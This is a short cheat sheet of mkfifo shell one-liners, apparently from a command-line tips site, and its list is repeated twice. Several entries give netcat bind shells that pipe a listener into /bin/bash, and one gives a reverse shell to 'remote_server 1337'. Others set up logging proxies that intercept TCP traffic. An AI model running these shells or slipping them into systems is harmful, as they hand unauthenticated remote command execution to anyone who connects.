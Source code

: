 # mkfifo

##### Emulating netcat -e (netcat-traditional or netcat-openbsd) with the gnu-netcat

   mkfifo  foo ; nc -lk 2600 0<foo | /bin/bash 1>foo

##### execute a shell with netcat without -e

   mkfifo  ._b; nc -lk 4201 0<._b | /bin/bash &>._b;

##### Intercept, monitor and manipulate a TCP connection.

   mkfifo  /tmp/fifo; cat /tmp/fifo | nc -l -p 1234 | tee -a to.log | nc machine port | tee -a from.log > /tmp/fifo

##### Network Proxy to dump the application level forward traffic in plain text in the console and in a file.

   mkfifo  fifo; while true ; do      echo "Waiting for new event";     nc -l 8080 < fifo | tee -a proxy.txt /dev/stderr | nc 192.168.0.1 80 > fifo ;  done

##### Viewable terminal session over network.

   mkfifo  /tmp/view; nc -l 9876 < /tmp/view& script -f /tmp/view

##### Share your terminal session real-time

   mkfifo  foo; script -f foo

##### analyze traffic remotely over ssh w/ wireshark

   mkfifo  /tmp/fifo; ssh-keygen; ssh-copyid root@remotehostaddress; sudo ssh root@remotehost "tshark -i eth1 -f 'not tcp port 22' -w -" > /tmp/fifo &; sudo wireshark -k -i /tmp/fifo;

##### execute a shell with netcat without -e

   mkfifo  pipe && nc remote_server 1337 <pipe | /bin/bash &>pipe

##### Emulating netcat -e (netcat-traditional or netcat-openbsd) with the gnu-netcat

   mkfifo  foo ; nc -lk 2600 0<foo | /bin/bash 1>foo

##### Intercept, monitor and manipulate a TCP connection.

   mkfifo  /tmp/fifo; cat /tmp/fifo | nc -l -p 1234 | tee -a to.log | nc machine port | tee -a from.log > /tmp/fifo

##### Network Proxy to dump the application level forward traffic in plain text in the console and in a file.

   mkfifo  fifo; while true ; do      echo "Waiting for new event";     nc -l 8080 < fifo | tee -a proxy.txt /dev/stderr | nc 192.168.0.1 80 > fifo ;  done

##### Viewable terminal session over network.

   mkfifo  /tmp/view; nc -l 9876 < /tmp/view& script -f /tmp/view

##### Share your terminal session real-time

   mkfifo  foo; script -f foo

##### analyze traffic remotely over ssh w/ wireshark

   mkfifo  /tmp/fifo; ssh-keygen; ssh-copyid root@remotehostaddress; sudo ssh root@remotehost "tshark -i eth1 -f 'not tcp port 22' -w -" > /tmp/fifo &; sudo wireshark -k -i /tmp/fifo;

##### execute a shell with netcat without -e

   mkfifo  pipe && nc remote_server 1337 <pipe | /bin/bash &>pipe
